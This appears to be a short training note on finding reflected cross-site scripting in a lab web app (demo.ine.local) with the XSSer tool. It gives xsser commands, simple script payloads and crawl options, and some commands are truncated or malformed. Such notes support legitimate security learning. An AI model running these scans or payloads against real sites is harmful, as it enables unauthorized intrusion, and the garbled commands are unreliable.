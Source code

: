 ![Used--Fp alert('1') hence, after forward from BurpSuite notice the target.](<../../.gitbook/assets/image (45).png>)

* Get Attack:

inside a get perm in-which it's value get's reflected we can Subtitiute that var with XSS to specify we are targeting it. in an XSS command: `xsser -u ""`

the URL: [http://demo.ine.local/index.php?page=user-poll.php\&csrf-token=\&choice=metasploit\&initials=h1\&user-poll-php-submit-button=Submit+Vote](http://demo.ine.local/index.php?page=user-poll.php\&csrf-token=\&choice=metasploit\&initials=h1\&user-poll-php-submit-button=Submit+Vote)\
On this occasion metasploit, a radio option gets reflected to the website so the url becomes: [http://demo.ine.local/index.php?page=user-poll.php\&csrf-token=\&choice=XSS\&initials=d\&user-poll-php-submit-button=Submit+Vote](http://demo.ine.local/index.php?page=user-poll.php\&csrf-token=\&choice=XSS\&initials=d\&user-poll-php-submit-button=Submit+Vote)



```
xsser -u "url_with_XSS"
```

Now we know from the Output that it's vulnerable let's use a custom payload.&#x20;

```
ser -u "url_with_XSS" --Fp "<script>print(1)</script>"
```

open the final\_attck in the browser.

* crawl

```
xsser -u <url> -c 20 --Cl
```

> \-c: number of url to crawl in a target.
>
> \--Cl: crawl only local targets.
